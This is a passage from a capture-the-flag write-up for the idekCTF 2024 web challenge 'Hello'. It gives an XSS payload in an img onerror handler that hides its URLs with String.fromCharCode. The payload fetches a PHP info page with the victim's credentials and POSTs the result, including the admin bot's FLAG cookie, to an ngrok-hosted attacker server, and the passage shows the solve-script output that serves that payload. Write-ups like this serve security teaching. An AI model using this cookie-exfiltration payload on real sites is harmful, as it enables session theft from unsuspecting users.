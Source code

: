 Alternatively, the same payload in one line:

```javascript
fetch(String.fromCharCode(104,116,116,112,58,47,47,105,100,101,107,45,104,101,108,108,111,46,99,104,97,108,46,105,100,101,107,46,116,101,97,109,58,49,51,51,55,47,105,110,102,111,46,112,104,112,47,46,112,104,112),{credentials:'include'}).then(response => response.text()).then(data => fetch(String.fromCharCode(104,116,116,112,115,58,47,47,97,97,97,45,49,50,51,45,52,53,54,45,55,56,57,45,49,50,51,46,110,103,114,111,107,45,102,114,101,101,46,97,112,112),{method:'POST',body:JSON.stringify({text:data})}));
```

Once we have the bot's `FLAG` cookie, we send it back to our attacker web server with a POST request.

> Note: You can send the cookie back to the attacker web server using the GET method. However, due to the URL character limit, you'll receive an HTTP status code of "[414 URI Too Long](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/414)". To solve this, you can use JavaScript to retrieve only the `FLAG` cookie's value. I didn't use the GET method because I didn't want to deal with this issue.

Final payload:

```
http://idek-hello.chal.idek.team:1337/?name=<img%0Csrc=x%0Conerror="fetch(String.fromCharCode(104,116,116,112,58,47,47,105,100,101,107,45,104,101,108,108,111,46,99,104,97,108,46,105,100,101,107,46,116,101,97,109,58,49,51,51,55,47,105,110,102,111,46,112,104,112,47,46,112,104,112),{credentials:'include'}).then(response => response.text()).then(data => fetch(String.fromCharCode(104,116,116,112,115,58,47,47,97,97,97,45,49,50,51,45,52,53,54,45,55,56,57,45,49,50,51,46,110,103,114,111,107,45,102,114,101,101,46,97,112,112),{method:'POST',body:JSON.stringify({text:data})}));">
```

To catch the exfiltrated `FLAG` cookie's value, I wrote a solve script to generate the payload and host a Flask web application:

<details><summary markdown="span"><strong>solve.py</strong></summary></details>

- Setup port forwarding via Ngrok:

```shell
┌[siunam♥Mercury]-(~/ctf/idekCTF-2024/web/Hello)-[2024.08.19|18:03:25(HKT)]
└> ngrok http 80
[...]
Forwarding                    https://0c59-{REDACTED}.ngrok-free.app -> http://localhost:80            
[...]
```

- Run the solve script:

```shell
┌[siunam♥Mercury]-(~/ctf/idekCTF-2024/web/Hello)-[2024.08.19|18:02:58(HKT)]
└> python3 solve.py -a https://0c59-{REDACTED}.ngrok-free.app
[*] Send the following payload to the admin bot:
http://idek-hello.chal.idek.team:1337/?name=<img%0Csrc=x%0Conerror="fetch(String.fromCharCode(104,116,116,112,58,47,47,105,100,101,107,45,104,101,108,108,111,46,99,104,97,108,46,105,100,101,107,46,116,101,97,109,58,49,51,51,55,47,105,110,102,111,46,112,104,112,47,46,112,104,112),{credentials:'include'}).then(response => response.text()).then(data => fetch(String.fromCharCode(104,116,116,112,115,58,47,47,48,99,53,57,45,123,82,69,68,65,67,84,69,68,125,46,110,103,114,111,107,45,102,114,101,101,46,97,112,112),{method:'POST',body:JSON.stringify({text:data})}));">
[*] Waiting for incoming request...
 * Serving Flask app 'solve'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:80
 * Running on http://10.69.96.69:80
Press CTRL+C to quit

```

